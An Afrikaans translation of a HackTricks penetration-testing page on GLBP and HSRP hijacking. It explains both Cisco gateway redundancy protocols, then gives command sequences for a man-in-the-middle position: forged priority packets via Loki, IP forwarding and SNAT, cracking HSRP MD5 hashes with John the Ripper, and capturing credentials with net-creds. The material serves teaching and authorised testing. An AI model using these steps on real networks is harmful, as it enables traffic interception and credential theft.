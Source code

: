 # GLBP & HSRP Aanvalle

<details>

<summary><strong>Leer AWS hakwerk vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## FHRP Kaping Oorsig

### Insigte in FHRP
FHRP is ontwerp om netwerkrobuustheid te bied deur meerdere roetery een enkele virtuele eenheid te kombineer, wat sodoende lasverspreiding en fouttoleransie verbeter. Cisco Systems het prominente protokolle in hierdie reeks ingevoer, soos GLBP en HSRP.

### GLBP Protokol Insigte
Cisco se skepping, GLBP, funksioneer op die TCP/IP-stapel en maak gebruik van UDP op poort 3222 vir kommunikasie. Routers in 'n GLBP-groep ruil "hallo" pakkette uit elke 3 sekondes. As 'n router nie hierdie pakkette vir 10 sekondes stuur nie, word aanvaar dat dit vanlyn is. Hierdie tydsaanduidings is egter nie vas en kan verander word.

### GLBP Operasies en Lasverspreiding
GLBP val op deur lasverspreiding oor roetery met 'n enkele virtuele IP gekoppel aan verskeie virtuele MAC-adresse te aktiveer. In 'n GLBP-groep is elke router betrokke by pakketsending. In teenstelling met HSRP/VRRP, bied GLBP ware lasbalansering deur verskeie meganismes:

- **Gasafhanklike Lasbalansering:** Handhaaf 'n konstante AVF MAC-adres toewysing aan 'n gas, noodsaaklik vir stabiele NAT-konfigurasies.
- **Rondom-Robin Lasbalansering:** Die verstekbenadering, wisselende AVF MAC-adres toewysing tussen versoekende gasheer.
- **Gewigte Rondom-Robin Lasbalansering:** Versprei las gebaseer op voorafbepaalde "Gewig" metriek.

### Sleutelkomponente en Terminologieë in GLBP
- **AVG (Aktiewe Virtuele Gateway):** Die hoofrouter, verantwoordelik vir die toekenning van MAC-adresse aan eweknie-routers.
- **AVF (Aktiewe Virtuele Stuurder):** 'n Router aangewys om netwerkverkeer te bestuur.
- **GLBP Prioriteit:** 'n metriek wat die AVG bepaal, begin by 'n verstek van 100 en wissel tussen 1 en 255.
- **GLBP Gewig:** Weerspieël die huidige las op 'n router, aanpasbaar of deur middel van Object Tracking.
- **GLBP Virtuele IP-adres:** Diens as die netwerk se verstekgateway vir alle gekoppelde toestelle.

Vir interaksies gebruik GLBP die voorbehoude multicast-adres 224.0.0.102 en UDP-poort 3222. Routers stuur "hallo" pakkette elke 3 sekondes en word as nie-operasioneel beskou as 'n pakkie oor 'n 10-sekondes duur gemis word.

### GLBP Aanval Mekanisme
'n Aanvaller kan die primêre router word deur 'n GLBP-pakket met die hoogste prioriteitswaarde (255) te stuur. Dit kan lei tot DoS of MITM-aanvalle, wat verkeersonderskepping of -omleiding moontlik maak.

### Uitvoering van 'n GLBP Aanval met Loki
[Loki](https://github.com/raizo62/loki_on_kali) kan 'n GLBP-aanval uitvoer deur 'n pakket in te spuit met prioriteit en gewig wat op 255 ingestel is. Voor-aanval stappe behels die insameling van inligting soos die virtuele IP-adres, outentiserings teenwoordigheid, en router prioriteit waardes met behulp van gereedskap soos Wireshark.

Aanvalstappe:
1. Skakel oor na promiskue modus en aktiveer IP deurstuur.
2. Identifiseer die teikenrouter en haal sy IP op.
3. Genereer 'n Gratis ARP.
4. Spuit 'n kwaadwillige GLBP-pakket in, wat die AVG naboots.
5. Ken 'n sekondêre IP-adres toe aan die aanvaller se netwerkinterface, wat die GLBP virtuele IP naboots.
6. Implementeer SNAT vir volledige verkeersigbaarheid.
7. Pas roetery aan om voortdurende internettoegang deur die oorspronklike AVG-router te verseker.

Deur hierdie stappe te volg, posisioneer die aanvaller homself as 'n "man in die middel," in staat om netwerkverkeer te onderskep en te analiseer, insluitend onversleutelde of sensitiewe data.

Vir demonstrasie, hier is die benodigde opdragfragment:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Passiewe Verduideliking van HSRP Ontvoering met Opdragbesonderhede

#### Oorsig van HSRP (Hot Standby Router/Redundansieprotokol)
HSRP is 'n Cisco-eienskapsprotokol wat ontwerp is vir netwerkgateway-redundansie. Dit maak die konfigurasie van meerdere fisiese roetery in 'n enkele logiese eenheid met 'n gedeelde IP-adres moontlik. Hierdie logiese eenheid word bestuur deur 'n primêre router wat verantwoordelik is vir die rigting van verkeer. Anders as GLBP, wat metriese soos prioriteit en gewig gebruik vir vragbalansering, steun HSRP op 'n enkele aktiewe router vir verkeersbestuur.

#### Rolle en Terminologie in HSRP
- **HSRP Aktiewe Router**: Die toestel wat as die gateway optree en verkeersvloei bestuur.
- **HSRP Standby Router**: 'n Reserwe-router, gereed om oor te neem as die aktiewe router misluk.
- **HSRP Groep**: 'n stel roetery wat saamwerk om 'n enkele veerkragtige virtuele router te vorm.
- **HSRP MAC-adres**: 'n virtuele MAC-adres wat toegewys is aan die logiese router in die HSRP-opstelling.
- **HSRP Virtuele IP-adres**: Die virtuele IP-adres van die HSRP-groep, wat as die verstekgateway vir gekoppelde toestelle optree.

#### HSRP Weergawes
HSRP kom in twee weergawes, HSRPv1 en HSRPv2, wat hoofsaaklik verskil in groepkapasiteit, multicast IP-gebruik, en virtuele MAC-adresstruktuur. Die protokol maak gebruik van spesifieke multicast IP-adresse vir diensinligtinguitruiling, met Hello-pakette wat elke 3 sekondes gestuur word. 'n Router word as onaktief beskou as geen pakket binne 'n interval van 10 sekondes ontvang word.

#### HSRP Aanvalsmeganisme
HSRP-aanvalle behels die gedwonge oorneem van die rol van die Aktiewe Router deur 'n maksimum prioriteitswaarde in te spuit. Dit kan lei tot 'n Man-In-The-Middle (MITM)-aanval. Essensiële voor-aanvalstappe sluit in die insameling van data oor die HSRP-opstelling, wat gedoen kan word deur Wireshark vir verkeersontleding te gebruik.

#### Stappe om HSRP-verifikasie te omseil
1. Stoor die netwerkverkeer wat HSRP-data bevat as 'n .pcap-lêer.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Haal MD5-hashes uit die .pcap-lêer met behulp van hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Kraak die MD5-hashes met John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Uitvoering van HSRP-inspuiting met Loki**

1. Lanceer Loki om HSRP-advertensies te identifiseer.
2. Stel die netwerkintefase in promiskue modus en aktiveer IP-deurverwysing.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Gebruik Loki om die spesifieke router te teiken, voer die gekraakte HSRP-wagwoord in, en voer die nodige konfigurasies uit om die Aktiewe Router te simuleer.
4. Nadat die Aktiewe Routerrol verkry is, konfigureer jou netwerkintefase en IP-tabelle om die wettige verkeer te onderskep.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Wysig die roetetabel om verkeer deur die vorige Aktiewe Router te roeteer.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Gebruik net-creds.py of 'n soortgelyke nut om geloofsbriewe van die onderskepte verkeer vas te vang.
```shell
sudo python2 net-creds.py -i eth0
```

Die uitvoering van hierdie stappe plaas die aanvaller in 'n posisie om verkeer te onderskep en te manipuleer, soortgelyk aan die prosedure vir GLBP-ontvoering. Dit beklemtoon die kwesbaarheid in redundansieprotokolle soos HSRP en die behoefte aan robuuste sekuriteitsmaatreëls.

## Verwysings
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks-klere**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
